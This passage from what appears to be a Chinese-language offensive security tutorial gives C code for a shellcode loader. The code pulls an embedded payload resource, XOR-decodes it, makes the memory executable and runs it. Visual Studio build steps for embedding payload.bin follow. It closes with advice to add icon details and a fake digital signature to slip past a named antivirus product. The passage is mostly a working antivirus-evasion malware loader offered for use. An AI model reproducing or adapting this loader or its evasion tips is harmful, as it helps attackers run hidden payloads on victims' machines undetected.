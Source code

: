 ```php

    DWORD oldProtect;
    BOOL pt;
    //找到shellcode资源，获取它的资源句柄
    //它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), 
  L"PAYLOAD_BIN");
    //读取其中的数据
    HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
    //读取数据⻓度，开辟内存空间读⼊，获得该空间指针
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    LPSTR shell = (LPSTR)VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_READWRITE);
    //shellcode数据拷⻉进shell指向的内存空间
    memcpy(shell, shellcodeResourceData, shellcodeSize);
    //此时shellcode已经进⼊内存空间，开始解密执⾏
    //先异或回来
    for (int i = 0; i < shellcodeSize; i++)
    {
        shell[i] ^= 0x39;
    }
    pt = VirtualProtect(shell, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
    ((void(*)())shell)();
    return 0;
}
```

由于我是使用资源文件加载的,我们需要在VS中配置一下

配置为release 的X86

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1699012429369-f4028aa2-4a9e-46ac-bcd6-1b742bfbb20c.png)

![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

然后修改代码生成为MT模式

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1699012473084-b31a4a9d-4d98-4b93-9e14-4ae3a4dc68cd.png)

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1699012506028-5a0ce286-ffca-441f-9b1a-f76e4eb66aa9.png)

点开资源文件然后添加一个资源

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1699012303039-8ae5ccc2-41b0-48c7-a116-fecea83c844f.png)

讲我们本地的bin文件加载进来重命名为payload.bin

最后重新生成解决方案即可

看下效果

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1699012828922-fe121625-455a-457c-95d6-90dc701f2e1e.png)

补充一下:在某数字杀软晶核的对抗环境下,由于其非黑即白的特性,需要添加图标详细信息以及打上假的数字签名即可